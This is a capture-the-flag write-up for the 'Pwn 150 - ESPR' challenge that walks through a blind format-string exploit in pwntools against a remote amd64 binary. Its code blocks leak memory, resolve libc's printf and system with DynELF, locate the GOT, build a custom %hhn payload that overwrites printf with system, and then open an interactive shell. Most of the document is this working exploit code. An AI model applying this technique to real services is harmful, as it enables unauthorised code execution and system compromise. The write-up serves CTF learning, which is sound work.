 # Pwn 150 - ESPR

> Writeup by [f0xtr0t](https://twitter.com/@jay_f0xtr0t) (Jay Bosamiya)

This challenge was solved after the contest, by f0xtr0t (Jay Bosamiya) and p4n74 (Rakholiya Jenish)

It was a great challenge with quite a bit to learn, especially since we didn't have the binary, but only a vulnerability to work from.

## The challenge

![](espr_small.jpg)
> nc 78.46.224.86 1337

Note by f0xtr0t: If the server is not available at some point, you can set it up on your own system using [`leaked_from_server.tar.gz`](leaked_from_server.tar.gz). These files were obtained after solving the challenge, and if you are using them, solve them without using any info from the files. Only the above image and access to the `nc` server was available during the contest, and the below solution uses only these.

## The solution

The complete solution is in [`espr.py`](espr.py). Below is the complete explanation.

Import the almighty pwntools, and open a connection to the server. Based upon the image, we know it is an `amd64` binary, and we can guess it is running on linux.

```python
from pwn import *

conn = remote('78.46.224.86', 1337)

context.update(arch='amd64', os='linux')


```

Looking at the image, we know that it is a format string vulnerability. As a way of abstracting the payload string, we write an `exec_payload`, which prepends a tag (`P0WN`), and uses it as a way of ensuring cleaner execution. `'\n'`s cause us problems and so we just ignore any payloads with this in it.

```python
def exec_payload(payload):
    if '\n' in payload:
        return ""
    conn.sendline("P0WN" + payload)
    conn.recvuntil("P0WN")
    data = conn.recvrepeat(0.5)
    log.info("%s => %s" % (repr(payload), repr(data)))
    return data
```

Using the `print_stack` function, I got information about what's on the stack. By seeing what's on the stack, we could get an idea of where to go further. Turns out, at offset 30, we get an address that looks like it is in the part of the binary (due to 0x4000000-like address). We store this to be of use later with `DynELF` from pwntools.

```python
def print_stack(until):
    for i in xrange(1, until + 1):
        exec_payload('%' + str(i) + '$p')

addr_into_bin = int(exec_payload('%30$p'), 16)
log.info('Using address %s' % hex(addr_into_bin))
```

Now, using the format string vulnerability, we try to find out a point that refers to itself so that we can leak using it. With this, we define a `leak` function, which leaks data from the given address. It leaks an indefinite amount of data (as much as it can). Minor workarounds are introduced to handle `'\n'` in the address which can be tried to be leaked by looking at previous address or similar.

```python
def find_leak_point():
    for i in xrange(1, 200):
        r = exec_payload('%' + str(i) + '$p' + 'XXXXXXXX' + 'YYYYYYYY')
        if '0x5959595959595959' in r:
            return i

leak_point = find_leak_point()
log.info('Found leak point %d' % leak_point)

def leak(addr):
    addr &= (2**64 - 1)
    log.info('Leaking address %s' % hex(addr))
    r = exec_payload('%' + str(leak_point) + '$s' + 'XXXXXXXX' + p64(addr))
    if r == '':
        return ''
    r = r[:r.index('XXXXXXXX')]
    if r == '(null)':
        return '\x00'
    else:
        return r + '\x00'
```

Now, using the `leak` function and the address into the binary that we had found before, we instantiate pwntool's DynELF. We use this to find the address of the dynamic section, and a couple of addresses (`printf` and `system`) that we will use later. Our current plan of attack is to overwrite the `printf` address in the GOT with the address to `system`, and then pass in a `/bin/sh` to gain access to a shell. The DynELF lookups take a lot of time, due to the `sleep` that's there on the system. However, due to the way memory leakers are handled, any addresses walked over once will automatically be used again rather than make more calls to the server. So our next parts should run quick enough.

```python
d = DynELF(leak, addr_into_bin)

dynamic_addr = d.dynamic

printf_addr = d.lookup('printf', 'libc')
system_addr = d.lookup('system', 'libc')
```

Parsing the dynamic section, we want to get the address to the PLTGOT, which is identified by the type 0x03. We thus skip over values in the dynamic section until we get the right type and then return that address.

```python
def find_plt_got():
    addr = dynamic_addr
    while True:
        x = d.leak.n(addr, 2)
        if x == '\x03\x00': # type PLTGOT
            addr += 8
            return u64(d.leak.n(addr, 8))
        addr += 0x10

got_addr = find_plt_got()
log.info('GOT Address: %s' % hex(got_addr))
```

We now can walk over the GOT to find the actual address where `printf` is stored.

```python
def find_printf():
    addr = got_addr
    while True:
        x = d.leak.n(addr, 8)
        if x == p64(printf_addr):
            return addr
        addr += 8

printf_got = find_printf()
log.info('printf@got : %s' % hex(printf_got))
```

With all these addresses found, we just need to generate a format string that does the correct overwrite. We could use `fmtstr` from pwntools, but it would involve some other minor complications (since it places the addresses before doing the format specifiers, but for our use case, we need to have all the format specifiers before the addresses which contain nulls). Hence, we write our own custom format string generator. The `curout = 4` is there because of the `P0WN` tag that we add.

```python
def fmt_gen(addr, val):
    ret = ''
    curout = 4
    dist_to_addr = 12 + 8*20
    reader = (dist_to_addr / 8) + 7
    for i in range(8):
        diff = (val & 0xff) - curout
        curout = (val & 0xff)
        val /= 0x100
        if diff < 20:
            diff += 0x100
        ret += '%0' + str(diff) + 'u'
        ret += '%' + str(reader) + '$hhn'
        reader += 1
    assert(len(ret) < dist_to_addr)
    ret += 'A'*(dist_to_addr - len(ret))
    for i in range(8):
        ret += p64(addr + i)
    return ret
```

Finally, we run the exploit, and drop a shell.

```python
log.info("Running exploit")
exec_payload(fmt_gen(printf_got, system_addr))
conn.sendline('/bin/sh')
log.info("Opened shell")
conn.interactive()

conn.close()
```

Success!
